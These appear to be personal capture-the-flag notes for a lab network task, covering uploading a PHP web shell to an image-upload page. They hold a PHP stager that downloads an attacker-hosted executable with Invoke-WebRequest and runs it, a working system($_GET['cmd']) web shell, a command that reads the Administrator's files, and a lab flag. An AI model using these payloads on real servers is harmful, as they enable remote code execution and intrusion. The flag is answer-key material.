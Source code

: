 Now that we have a working executable that can bypass anti-virus, we need a way to execute it. We know that web servers cannot execute applications, so we will need to write a PHP wrapper to download and execute our code for us.  

We will be using a template payload/wrapper that we can use to deploy PowerShell commands on the remote server for this task. This will allow us to download and execute our malicious application. Find the source code for the template below.  

```
 <?php  
  function compile_stager() {  
    $init = "powershell.exe";  
    $payload = ""; // Insert PowerShell payload here  
    $execution_command = "shell_exec";  
    $query = $execution_command("$init $payload");  
    echo $query; // Execute query  
  }   
  
  compile_stager();  
?>
```

The above wrapper takes advantage of the `shell_exec` command to open a process on the server and execute commands as the webserver. Of course, this will only work if you can execute privileges on the system.  

You can decide to either upload an exe grunt or create a ps1 grunt either will work with the template.  

To download our malicious grunt we can set up an HTTP server on our attacking machine using python, updog, etc and use `iex` or `Invoke-WebRequest` to make a remote call to our server. Find the download payload below.

To download our malicious grunt, we can set up an HTTP server on our attacking machine using python, updog, etc and use `iex` or `Invoke-WebRequest` to make a remote call to our server. Find the download payload below.  

`Invoke-WebRequest 127.0.0.1:8000/shell.exe -outfile notashell.exe`

To implement this payload, you will need to change the address and port to your attacking machine. You may also want to begin by identifying the webserver's root directory to identify where you can and cannot execute the file, such as if AppLocker or other solutions are employed on the server.  

After we have downloaded the file, we will want to execute it using PowerShell. First, find the execution payload below.  

`.\notashell.exe` or `cmd /c .\notashell.exe`

We can put together all payloads into the wrapper to complete our PHP payload. Find the final PHP code below.  

```
<?php  
  function get_stager() {  
    $init = "powershell.exe";  
    $payload = "Invoke-WebRequest 127.0.0.1:8000/shell.exe -outfile notashell.exe"; // Insert PowerShell payload here  
    $execution_command = "shell_exec";  
    $query = $execution_command("$init $payload");  
    echo $query; // Execute query  
  }  
 function execute_stager() {  
  $init = "powershell.exe";  
    $payload = ".\notashell.exe"; // Insert PowerShell payload here  
    $execution_command = "shell_exec";  
    $query = $execution_command("$init $payload");  
    echo $query; // Execute query  
 }  
  get_stager();  
  execute_stager();  
  die();  
?>
```

We now have a working PHP shell that operates with Covenant. You can find the source code on GitHub, [https://github.com/Cryilllic/PHP-PowerShell/tree/main](https://github.com/Cryilllic/PHP-PowerShell/tree/main).


---

# Your job

Time to try and exploit this web-app. Remember way back in [[Task 29 - Thanks, I'll let myself in.]] we found the `/images/` directory so we can run PHP code, that isn’t malicious. Well let’s give that a go.

> [!failure]
> Don't bother yourself trying the above method, according to someone else's writeups it doens't work.

Instead follow the [[Marmeus' walkthrough]].

It's used the following web-shell which didn’t get caught.

```
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
if(isset($_GET['cmd']))
{
system($_GET['cmd']);
}
?>
</pre>
</body>
</html>
```

1. Create a php file with the above code on your attacking machine.
2. Navigate to http://10.200.95.31/img_upload.php and upload the file.
3. Navigate to http://10.200.95.31/images/webshell.php.
	![[Task 35 - Wrapping the burrito-20241014144328981.webp]]
	Now you can run any command on the form.
	
> [!INFO]
You are root onto  S-SRV01.

---

## Flag after rooting S-SRV01

- Run the following on the form.
	`type C:\Users\Administrator\Desktop\root.txt`
	
	HOLO{50f9614809096ffe2d246e9dd21a76e1}

- Submit the user flag on Task 4, question 5.

**Next step:** [[Task 36 -  That's not a cat that's a dawg]]
